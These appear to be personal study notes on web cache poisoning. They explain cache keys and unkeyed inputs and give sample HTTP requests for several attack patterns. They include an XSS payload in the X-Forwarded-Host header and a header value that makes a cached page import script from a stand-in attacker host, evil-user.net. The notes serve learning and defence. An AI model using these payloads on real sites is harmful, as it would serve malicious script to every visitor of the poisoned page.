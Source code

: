 # Web cache poisoning

Two phases:

1. The attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload
2. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims

<details>

<summary><strong>Cache keys</strong></summary>

When the cache gets an HTTP request, it decides whether to serve a cached response or forward the request to the origin server by generating a 'cache key.' This key is usually based on the URL path and query parameters but can also include headers and content type.

</details>

## <mark style="color:yellow;">Impact of a web cache poisoning attack</mark>

Depend on two key factors:

1. What exactly the attacker can successfully get cached
2. The amount of traffic on the affected page (visitors)

{% hint style="info" %}
**Note**: that the duration of a cache entry doesn't always impact web cache poisoning, as attacks can be scripted to re-poison the cache indefinitely.
{% endhint %}

## <mark style="color:yellow;">Constructing a web cache poisoning attack</mark>

1. Identify and evaluate unkeyed inputs
   - Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
2. Elicit a harmful response from the back-end server
   - Evaluate exactly how the website processes it. E.g. see if the input is reflected in the response from the server without being properly sanitized.
3. Get the response cached
   - A cached response may depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers.

### <mark style="color:yellow;">Identify and evaluate unkeyed inputs</mark>

Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.

{% hint style="info" %}
**Tip**: use Param Miner extension (Guess headers)
{% endhint %}

### <mark style="color:yellow;">Elicit a harmful response from the back-end server</mark>

Evaluate exactly how the website processes it. E.g. see if the input is reflected in the response from the server without being properly sanitized.

### <mark style="color:yellow;">Get the response cached</mark>

A cached response may depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers

## <mark style="color:yellow;">Exploiting cache design flaws</mark>

### <mark style="color:yellow;">Web cache poisoning to deliver XSS</mark>

Simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

* `X-Forwarded-Host` is being used to dynamically generate an Open Graph image URL
* `X-Forwarded-Host` is unkeyed
* Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`
* If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

### <mark style="color:yellow;">Web cache poisoning to exploit unsafe handling of resource imports</mark> <a href="#using-web-cache-poisoning-to-exploit-unsafe-handling-of-resource-imports" id="using-web-cache-poisoning-to-exploit-unsafe-handling-of-resource-imports"></a>

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

### <mark style="color:yellow;">Web cache poisoning to exploit cookie-handling vulns</mark>

```http
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

* Premise (as always): `Cookie` header is unkeyed
* If the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish

{% hint style="info" %}
**Note**: It is rare. Cookie-based cache poisoning vulnerabilities are usually quickly identified and resolved because legitimate users often accidentally poison the cache.
{% endhint %}

### <mark style="color:yellow;">Using multiple headers to exploit web cache poisoning vulnerabilities</mark>

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

### <mark style="color:yellow;">Exploiting responses that expose too much information</mark>

#### Cache-control directives

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

#### Vary header

* The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed
  * For example, it is commonly used to specify that the `User-Agent` header is keyed
    * If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.
* An attacker can also:
  * Attack only users with that user agent are affected
  * Work out which user agent was most commonly used to access the site (attack to affect the maximum number of users)

## <mark style="color:yellow;">Exploiting cache implementation flaws</mark>

TO DO
